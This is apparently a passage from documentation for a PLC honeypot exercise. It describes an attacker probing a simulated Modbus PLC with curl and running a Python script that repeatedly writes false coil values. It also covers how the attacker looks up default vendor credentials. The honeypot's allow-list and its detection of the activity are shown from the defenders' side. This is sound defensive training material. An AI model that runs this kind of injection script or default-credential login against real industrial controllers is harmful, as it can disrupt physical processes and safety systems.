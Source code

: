 The attacker performs the following actions:

- Sends `curl` requests to `http://172.23.155.209:5001` and `https://172.23.155.209:5001` to verify the HTTP service response.
- Creates a simple Modbus Read/Write client script to test read and write operations on the PLC:

```python
# A simple modbus IO program, for the lib modbusTcpCom, please refer to this link:
# https://github.com/LiuYuancheng/PLC_and_RTU_Simulator/blob/main/Modbus_PLC_Simulator/src/modbusTcpCom.py
import time
import modbusTcpCom
hostIp = '172.23.155.209'
hostPort = 502
client = modbusTcpCom.modbusTcpClient(hostIp)
print('Try to connect to the target PLC: %s' %str(hostIp))
while not client.checkConn():
    print('Try connect to the PLC')
    print(client.getCoilsBits(0, 4))
    time.sleep(0.5)
# Start the attack
print('Target PLC accept connection request.')
time.sleep(1)
while True:
    print("Inject wrong data...")
    rst1 = client.setCoilsBit(4, False)
    time.sleep(0.2)
    rst2 = client.setCoilsBit(6, True)
    time.sleep(0.5)
    if rst1 is None and rst2 is None: print("injection failed")
```

When running the script, read and write attempts fail because the attacker's IP (`172.23.144.1`) is not in the PLC’s **Allow Read/Write List**, the I/O request are rejected by the PLC.(As shown below)

![](doc/img/um/um_s14.png)

`Figure-13: Honeypot Attack Detection: Modbus-TCP data read and write script result, version v_0.1.3 (2024)`

>  **Defender Response:** From the blue team side, the defenders check the monitor hub for `ModbusPLC01`'s state page and they can observe Port Touch Warnings for Nmap scans and `curl` actions as shown below:

![](doc/img/um/um_s15.png)

`Figure-14: Honeypot Attack Detection: nmap and curl detection, version v_0.1.3 (2024)`

#### Attack Step 2: Logging into PLC Config Page and Modifying Access Permissions

The attacker accesses the PLC config page at `http://172.23.155.209:5001` using a browser. Upon identifying the device as an M221 PLC, the attacker searches online and finds default login credentials on this link:  https://www.se.com/eg/en/faqs/FAQ000241261/ . 
